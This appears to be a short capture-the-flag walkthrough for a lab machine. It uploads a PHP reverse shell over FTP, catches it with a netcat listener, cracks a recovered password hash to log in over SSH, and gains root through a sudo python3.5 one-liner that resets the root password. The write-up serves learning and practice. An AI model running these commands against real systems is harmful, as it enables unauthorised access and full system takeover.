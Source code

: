 no password

### Gaining access with reverse shell

Get script from https://www.revshells.com/

Set ip as my own and a random port

Send script to target mashine through ftp

```
ftp> send shell.php
```

Separate terminal set up listener

```
nc -lvnp 12345
```

Go to http://192.168.1.204/files and click on shell.php

Now we have connection

Looking around, home dir has some files.

```
cd /home
```

```
cat important.txt
cat /.runme.sh
```

/.runme.sh has a password hash

Decrypt hash at https://hashes.com/en/decrypt/hash

Establish ssh connection into mashine with username shrek.

```
ssh shrek@192.168.1.204
```

Password: youaresmart

User dir has txt file with ascii art and message: "I generated this ascii art with python3.5, is it cool?"

### Privilege escalation

Since the hint was python3.5 use it to change root password

```
sudo /usr/bin/python3.5 -c 'import os; os.system("sudo passwd root")'
```

Enter new password

login as root

```
su root
```
